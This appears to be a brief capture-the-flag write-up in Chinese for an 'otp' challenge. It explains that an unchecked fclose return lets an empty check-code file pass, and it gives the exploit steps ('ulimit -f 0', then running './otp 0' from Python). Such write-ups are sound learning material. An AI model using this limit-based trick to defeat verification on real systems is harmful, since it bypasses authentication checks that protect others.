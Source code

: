 漏洞:<br>
    
    1. fclose 未檢查返回值 (一般來說，也不太會檢查，但這題是把檢驗碼存入，應當檢查是否寫入成功) <br>

解題流程: <br>

    利用 ulimit 將 file size 設為 0 (ulimit -f 0)<br>
    再用 python 執行即可 <br>

```
$ python
>>> import os
>>> os.system('./otp 0')
```
